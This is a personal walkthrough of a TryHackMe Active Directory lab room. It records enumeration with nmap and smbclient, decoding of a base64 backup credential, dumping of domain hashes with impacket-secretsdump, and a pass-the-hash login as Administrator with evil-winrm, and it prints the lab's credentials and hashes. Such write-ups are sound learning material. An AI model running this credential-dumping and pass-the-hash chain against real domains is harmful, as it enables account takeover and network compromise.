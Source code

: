 ```
URL : https://tryhackme.com/room/attacktivedirectory
Description: 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
ip : 10.10.15.181
```


So this is about Active directory which i have little experience with. I've done some rooms but nothing really "stuck" with me, so ill have to start from scratch:

Lets start with a nmap scan on the 1000 most known ports:

| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 636/tcp | open | tcpwrapped |   |
| 80/tcp | open | http | Microsoft IIS httpd 10.0 |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |2


We see a lot of open ports here, lets see what is happening on port 80 in a browser. This just shows a basic introduction screen to Windows server.

Since Kerboros works mostly only with Domains, we add the machine IP to the given .

``sudo echo "<ip> spookysec.local" >> /etc/hosts``

This registers the domain name for that ip and we can proceed.

For this assignment, the user/password lists were adjusted 4

user: svc-admin
password: management2005

Now that we have a user and his credentials, we can scan for SMB mounts we can check for usefull files/explotable entrances.
We use `smbclient` to enumerate samba shares and see whatsup


```
smbclient -L 10.10.166.85 --user=svc-admin%management2005 | tee smbclient_enum.txt

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available

```
the "backup" mount jumps out as something that might have useful information, lets connect to it:

``smbclient //10.10.166.85/backup --user=svc-admin%management2005``

Here we find a `backup_credentials.txt` file with some sort of encrypted string.

```
─$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw"
| base64 -d

backup@spookysec.local:backup2517860       
```

On a whim we will base64 decode it see if it resolves with any usefull information, and there! we have found more account credentials which most likely escalate our permissions!

Now the Walkthrough tells us to use this Backup information to "dumpSecrets" with this backup account. lets try it.



`sudo impacket-secretsdump backup:backup2517860@spookysec.local | tee "secretsdump_output.txt"`
This gives as a giant file you can check in the root folder called secretsdump_output.txt. This shows us alot of hashes aand usefull information. Ofcourse we're interested in the Administrator account. 

From this we get a giant list of dumped Credentials, we can use these credentials to log-in with the Master account `Administrator` by using a technique called "pass the hash". This allows us to use the hash as credentials to login with the Administrator account.

For this we use software called Evil Win-Rm, and we pass the hash we found from this line to it.

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`sudo evil-winrm _2.3_ -i 10.10.145.103 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

*NOTE*
  This does not work from my Kali-vm for some reason, and i cannot figure out why. I've tried to downgrade the evil-winrm to version 2.3 which i found somewhere in a writeup and some other things, but i could not get it to work :(

  What i did instead is use the TryHackMe provided Attack-box and it worked like a charm with the exact same command. Probably some VPN thing.

In the end, this gave us a PowerShell as Administrator and allowed us to fill in the 3 flags that were required by simply navigating to `Users\svc-admin Users\backup and Users\Administrator\Desktop`.

Conclusion:

I've learned alot from this room as i have used some of the tools before and my knowledge of Windows Active directory is still very limited. But This was a fun and challenging task, especially because the Evil-winrm didnt want to work on my local machine :).
